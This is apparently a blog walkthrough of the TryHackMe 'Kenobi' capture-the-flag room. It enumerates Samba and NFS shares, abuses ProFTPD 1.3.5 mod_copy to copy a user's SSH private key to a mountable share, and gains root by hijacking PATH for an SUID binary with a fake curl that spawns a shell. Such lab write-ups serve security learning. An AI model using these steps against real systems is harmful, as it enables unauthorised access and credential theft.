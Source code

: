 ```yaml
---
title: Kenobi Walkthrough - Tryhackme
tags: [Boot2root,Samba,ProFTPD,NFS,SUID]
published: true
description: My walkthrough of the Kenobi room by tryhackme. 
toc: true
image: ../../../assets/images/kenobi/logo.png
thumbnail: ../../../assets/images/kenobi/logo.png
---
```



<img src = "../../../assets/images/kenobi/logo.png">

[Kenobi](https://tryhackme.com/room/kenobi) is a nice room which invloves enumerating Samba, NFS shares, exploiting ProFtpd and then using SUID binary to escalate privileges.


### Task 1 - Deployment of Machine
1. Deploy the machine and scan for open ports in it.
2. Running Nmap on the host shows 7 ports are open.
    > nmap -sC -sV -p- [HOST-IP] 
    
    <img src= "../../../assets/images/kenobi/nmap-res.png">


Nmap script tells a lot about the host. The following points are to be noted here
- The host is running Linux.
- There's a website running on port 80, which has 1 disallowed entry in `robots.txt`, also the script found an `admin.html` page. 

<img src ="../../../assets/images/kenobi/robots.png">

- `admin.html` is just a "trap".
- Nmap shows that the host is running samba. Let's enumerate it, which is also the next task.

### Task 2 - Enumerating Samba Shares

Samba has two ports 139, 445. <br />

<img src="../../../assets/images/kenobi/samba.png">

Nmap can enumerate Samba shares using nse scripts.
> nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [HOST-IP]

Another way to do it is using the `smbclient`.
> smbclient -N -L //[HOST-IP]/

The `-N` does not check for password and `-L` is to list the shares available.

<img src="../../../assets/images/kenobi/samba_shares.png">

1. Host has 3 samba shares, of which `anonymous` is of our interest.

Now, connect to the `anonymous` share.
> smbclient -N //[HOST-IP]/anonymous

<img src="../../../assets/images/kenobi/anonymous.png">

You can recursively download the SMB share too. Submit the username and password as nothing.
> smbget -R smb://[HOST-IP]/anonymous

2. There is a **log.txt** file in the share.

`log.txt` conatains information about SSH key and ProFTPD and Samba configurations.

<img src="../../../assets/images/kenobi/log1.png">
<img src="../../../assets/images/kenobi/log2.png">

This information might be useful later.


3. FTP is running on port **21**.

Earlier nmap port scan had shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Let's use nmap to enumerate this.
> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [HOST-IP]

<img src="../../../assets/images/kenobi/nfs.png">

4. What mount can we see? **/var**

### Task 3 - Gaining Initial Access: Exploiting ProFtpd

1. From Nmap port scan result, ProFtpd version is **1.3.5**.

Checking the Exploit-DB for ProFtpd
> searchsploit proftpd

<img src="../../../assets/images/kenobi/xdb.png">

2. There are **3** exploits for this version of Proftpd.

There is an exploit on the `mod_copy module`. The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Now since the FTP service is running as kenobi user(from log.txt) we can get the private key of kenobi using SITE CPFR and SITE CPTO commands.
> nc [HOST-IP] 21

<img src="../../../assets/images/kenobi/cpto.png">

We put the private key in `var` because it can be mounted using nfs.

Mount the `/var` directory.
> mkdir /mnt/kenobiNFS <br />
> mount [HOST-IP]:/var /mnt/kenobiNFS <br />
> cp /mnt/kenobiNFS/tmp/id_rsa .

We now have the private key of kenobi, use this to log in as kenobi and get the user flag.
> ssh -i id_rsa kenobi@[HOST-IP]


### Task 4 - Privilege Escalation

Search for SUID binaries in the system.
> find / -perm -u=s -type f 2>/dev/null

<img src="../../../assets/images/kenobi/find.png">

1. What file looks particularly out of the ordinary? **/usr/bin/menu** which is running as root.

Run the menu binary.
> menu

<img src="../../../assets/images/kenobi/menu.png">

2. Run the binary, how many options appear? **3**

Run strings on it to see what is happening internally.
> strings /usr/bin/menu

<img src="../../../assets/images/kenobi/strings.png">

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
We can create a malicious curl binary and add it to `$PATH`, so that when `menu` is executed it calls malicious curl.
> echo /bin/sh > /tmp/curl <br />
> chmod 777 /tmp/curl <br />
> export PATH=/tmp:$PATH <br />
> menu

<Img src="../../../assets/images/kenobi/curl.png">

Get the root flag!